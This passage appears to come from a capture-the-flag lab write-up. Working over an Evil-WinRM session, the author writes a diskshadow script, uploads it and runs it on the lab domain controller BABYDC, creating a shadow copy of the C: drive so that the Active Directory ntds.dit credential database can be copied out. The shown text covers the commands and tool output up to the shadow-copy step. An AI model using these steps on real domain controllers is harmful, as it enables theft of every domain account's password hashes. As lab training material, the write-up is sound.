 ```bash
set verbose on   
set metadata C:\Windows\Temp\meta.cab   
set context clientaccessible   
set context persistent   
begin backup   
add volume C: alias cdrive   
create   
expose %cdrive% E:   
end backup
```

And then upload it to the Windows box.

```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> upload backup.txt
                                        
Info: Uploading /home/kali/Documents/vulnlab/baby/www/backup.txt to C:\Users\Caroline.Robinson\Documents\backup.txt
                                        
Data: 252 bytes of 252 bytes copied
                                        
Info: Upload successful!
```

Now lets use diskshadow to take a shadow copy of the ntds.dit file and store it on a network drive `E:`. 

```powershell
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Desktop> diskshadow /s backup.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  BABYDC,  5/16/2025 10:53:12 PM

-> set verbose on
-> set metadata C:\Windows\Temp\meta.cab
-> set context clientaccessible
-> set context persistent
-> begin backup
-> add volume C: alias cdrive
-> create
Excluding writer "Shadow Copy Optimization Writer", because all of its components have been excluded.

* Including writer "Task Scheduler Writer":
        + Adding component: \TasksStore

* Including writer "VSS Metadata Store Writer":
        + Adding component: \WriterMetadataStore

* Including writer "Performance Counters Writer":
        + Adding component: \PerformanceCounters

* Including writer "System Writer":
        + Adding component: \System Files
        + Adding component: \Win32 Services Files

* Including writer "DFS Replication service writer":
        + Adding component: \SYSVOL\8D6E7361-AC28-4EC5-9914-ACB6AE407BCB-2EB58465-8BD4-4748-9135-FE1B23D5A20B

* Including writer "NTDS":
        + Adding component: \C:_Windows_NTDS\ntds

* Including writer "ASR Writer":
        + Adding component: \ASR\ASR
```